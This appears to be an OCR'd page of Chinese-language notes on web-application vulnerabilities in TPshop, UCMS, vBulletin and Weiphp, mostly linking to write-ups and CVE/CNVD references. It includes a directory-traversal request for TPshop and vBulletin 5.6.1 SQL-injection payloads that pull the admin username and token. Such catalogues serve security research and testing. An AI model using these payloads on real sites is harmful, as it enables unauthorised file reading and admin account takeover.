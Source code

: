 
### TPshop

**目录遍历漏洞**
- 相关文章
    - [某shop 前台文件遍历&SSRF组合拳](https://xz.aliyun.com/t/5096)
    - [某软件存在目录遍历漏洞](https://mp.weixin.qq.com/s/3MkN4ZuUYpP2GgPbTzrxbA)

- POC | Payload | exp
    ```
    /index.php/Home/uploadify/fileList?type=.+&path=../../../
    ```

---

### UCMS

**CVE-2020-25483 后台文件上传漏洞**
- 相关文章
    - [UCMS文件上传漏洞(CVE-2020-25483)复现](https://blog.csdn.net/xuandao_ahfengren/article/details/110233085)

### vBulletin

**vBulletin 5.6.1 SQL 注入**
```
http://localhost/vb5/ajax/api/content_attach/getIndexableContent"  -H 'X-Requested-With: XMLHttpRequest' -d "nodeId[nodeid]=SQLi
```
获取管理员用户：
```
http://SITE/vb5/ajax/api/content_infraction/getIndexableContent"  -H 'X-Requested-With: XMLHttpRequest' -d "nodeId[nodeid]=1+UNION+SELECT+26,25,24,23,22,21,20,19,20,17,16,15,14,13,12,11,10,username,8,7,6,5,4,3,2,1+from+user+where+userid=1--
```
获取admin token：
```
http://SITE/vb5/ajax/api/content_infraction/getIndexableContent"  -H 'X-Requested-With: XMLHttpRequest' -d "nodeId[nodeid]=1+UNION+SELECT+26,25,24,23,22,21,20,19,20,17,16,15,14,13,12,11,10,token,8,7,6,5,4,3,2,1+from+user+where+userid=1--
```

---

### Weiphp

**CNVD-2020-68596 前台文件任意读取**
- POC | Payload | exp
    - [Weiphp5.0 前台文件任意读取 CNVD-2020-68596](https://mp.weixin.qq.com/s/XoXrKBUBlQ_yjwCJSdpUzg)


**CNVD-2021-09693 Weiphp5.0 任意用户Cookie伪造**
- 相关文章
    - [Weiphp5.0 任意用户Cookie伪造 CNVD-2021-09693](https://mp.weixin.qq.com/s/aklOSIWUJ2Bzmqwjj845TA)

---
